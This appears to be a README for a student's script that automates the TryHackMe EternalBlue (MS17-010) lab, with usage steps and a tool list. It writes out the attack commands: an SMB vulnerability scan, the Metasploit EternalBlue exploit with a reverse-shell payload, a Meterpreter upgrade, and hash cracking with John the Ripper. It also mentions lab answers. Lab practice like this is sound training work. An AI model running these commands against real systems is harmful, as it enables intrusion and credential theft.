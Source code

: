 # 🔐 EternalBlue Lab Automation Script – TryHackMe

> 🧠 **For Educational Use Only**  
> Automates the EternalBlue exploitation lab on TryHackMe including scanning, exploiting MS17-010, and capturing flags.

---

## 📁 Features

- 📖 **Lab Description** with detailed background on EternalBlue
- 📋 **Checklist** to keep track of key lab tasks
- 🔌 **VPN Connection Setup** with `.ovpn` file
- ⚔️ **Metasploit-based Exploitation** using EternalBlue
- 🧠 **Post-Exploitation Commands** for Meterpreter shell
- 🔐 **Password Hash Cracking** with John the Ripper
- 🏁 **Flag Discovery** with hints and answers
- ![image](https://github.com/user-attachments/assets/379b023e-0c63-49b1-9189-db3ef3e34d4b)


---

## 🚀 How to Use

```bash
git clone https://github.com/yourname/eternalblue-lab
cd eternalblue-lab
chmod +x eternalblue-lab.sh
dos2unix eternalblue-lab.sh
./eternalblue-lab.sh

🧪 Menu Options
Option	Description
1️⃣	View Lab Description
2️⃣	View Task Checklist
3️⃣	Connect to VPN Only (.ovpn file required)
4️⃣	Start Full Exploitation Lab
5️⃣	View Questions and Answers for THM tasks
6️⃣	Exit

🛠️ Tools Used
Nmap – Port scanning and vulnerability detection

Metasploit – Exploitation of MS17-010 (EternalBlue)

John the Ripper – Cracking NTLM hashes

OpenVPN – VPN connection to TryHackMe network

nmap -p 445 --script smb-vuln* <TARGET_IP>

# Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
set LHOST <YOUR_IP>
set PAYLOAD windows/x64/shell/reverse_tcp
exploit -j

# Post Exploitation
use post/multi/manage/shell_to_meterpreter
set SESSION <session_id>
exploit -j

# Cracking Passwords
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
🎯 Learning Objectives
✅ Understand EternalBlue and MS17-010
✅ Identify vulnerable SMB services
✅ Exploit Windows targets with Metasploit
✅ Practice real-world post-exploitation
✅ Learn ethical hacking techniques responsibly

⚠️ Disclaimer
This script is strictly for educational purposes.
Do NOT scan, exploit, or access unauthorized systems.
Always follow legal and ethical guidelines.

👨‍💻 Author
Kuntal Bera
Cybersecurity Student | Ethical Hacking Enthusiast

⭐ Give it a Star!
If you found this useful, consider starring the repository ❤️

bash
Copy
Edit
⭐ github.com/yourname/eternalblue-lab

